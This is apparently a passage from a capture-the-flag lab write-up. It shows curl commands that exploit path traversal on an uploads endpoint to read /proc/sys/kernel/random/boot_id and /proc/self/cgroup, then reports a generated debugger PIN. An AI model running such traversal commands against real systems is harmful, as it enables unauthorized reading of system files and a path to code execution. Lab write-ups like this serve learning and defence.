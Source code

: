   ```bash
  curl http://10.10.11.164/uploads/..//proc/sys/kernel/random/boot_id --path-as-is --ignore-content-length
  ```
![](screenshots/curl_boot_id.png)
- Cgroup:  
  ```bash
  curl http://10.10.11.164/uploads/..//proc/self/cgroup --path-as-is --ignore-content-length
  ```
![](screenshots/curl_cgroup.png)

PIN generated successfully:

![](screenshots/generate_pin_executed.png)
